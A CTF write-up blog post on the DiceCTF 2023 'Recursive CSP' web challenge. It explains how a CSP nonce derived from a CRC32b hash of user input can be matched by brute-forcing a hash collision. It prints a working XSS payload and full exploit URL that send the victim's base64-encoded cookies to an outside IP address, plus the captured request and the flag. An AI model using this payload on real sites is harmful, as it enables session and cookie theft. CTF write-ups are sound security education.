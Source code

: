 ```yaml
---
layout: post
title: DiceCTF 2023 - Recursive CSP
color: rgb(51,122,183)
tags: [CTF, Web]
comments: true
share: false
excerpt_separator: <!--more-->
---
```


Recursive CSP was a easy web challenge from DiceCTF 2023 <!--more--> with the following description:
```
the nonce isn’t random, so how hard could this be?
(the flag is in the admin bot’s cookie)
```

### Introduction

The challenge provides two websites: the main challenge website and the admin bot, where the flag is stored. After reading the challenge description, we get the impression that we'll need to guess a nonce value in order to retrieve the flag.

### Obtain source code

After inspecting the HTML of the main website, I observed that appending the `/?source` flag to the URL allowed us to retrieve the application's source code:
```php
<?php
if (isset($_GET["source"])) highlight_file(__FILE__) && die();

$name = "world";

if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
}

$nonce = hash("crc32b", $name);
header ("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");

?>

<!DOCTYPE html>
<html>
    <head>
        <title>recursive-csp</titles>
    </head>
    <body>
        <h1>Hello, <?php echo $name ?>!</hl>
        <h3>Enter your name:</h3>
        <form method="GET">
            <input type="text" placeholder="name" name="name" />
            <input type="submit" />
        </form>
        <!-- /?source -->
    </body>
</html>
```
### Understanding source code

The website is setting a Content-Security-Policy that defines the following directives: 
 - **default-src 'none'**: defines that no resources are allowed to be loaded from any source by default;
 - **base-uri 'none**: disallows any base URL to be used; 
 - **script-src 'nonce-$nonce' 'unsafe-inline'**: allows scripts to be loaded only from a source that includes a specific nonce value (represented by $nonce), which is a cryptographic token that is generated each time the page is loaded.

Also the website is passing the $name parameter to a CRC32B hash function. However, CRC32B is not secure for cryptographic purposes due to its vulnerability to collision attacks, preimage attacks, and weak security properties.


```php
// The $nonce value need to be equal
$nonce = hash("crc32b", $name); #server
<script nonce='$nonce'> #frontend
```
In order to bypass the CSP Policy the $nonce value of the server must match the nonce in the script. The only limitation is that our payload must be under 128 characters long.

### Generate the payload:

Using this open source tool [CRC-32 hash collider](https://github.com/fyxme/crc-32-hash-collider){:target="_blank"} with some tweaks I made, we are able to generate the script with the desired nonce, bruteforcing the bytes to generate an crc32b hash colision.

```html
<script nonce='e6377dcb'>document.location = 'http://164.90.214.22/?cookie=' + btoa(document.cookie)</script>00000000005EPZs
```

With this script, we can bypass csp policy and execute scripts on the website.

```
https://recursive-csp.mc.ax/?name=%3Cscript%20nonce=%27e6377dcb%27%3Edocument.location%20=%20%27http://164.90.214.22/?cookie=%27%20%2b+btoa(document.cookie)%3C/script%3E00000000005EPZs
```

### Obtain the flag:

To obtain the flag, we need to send the previously generated URL to the admin bot. Once we have sent the URL, we should wait for the bot to respond with the flag. It is important to note that the flag will be returned in a Base64 encoded format, so we will need to decode it before we can read the actual flag.

```
"GET /?cookie=ZmxhZzpkaWNlQ1RGe2gwcGVfdGhhdF9kMWRudF90YWtlX3Rvb19sMG5nfQ== HTTP/1.1" 200
```

Decoding the base64 string we get the flag `diceCTF{h0pe_that_d1dnt_take_too_l0ng}`.

### Conclusion:

At first, I faced some difficulties with the generated payload as I forgot that the HTTP request automatically encodes URLs. However, once I figured that out, the CTF challenge became straightforward and fun.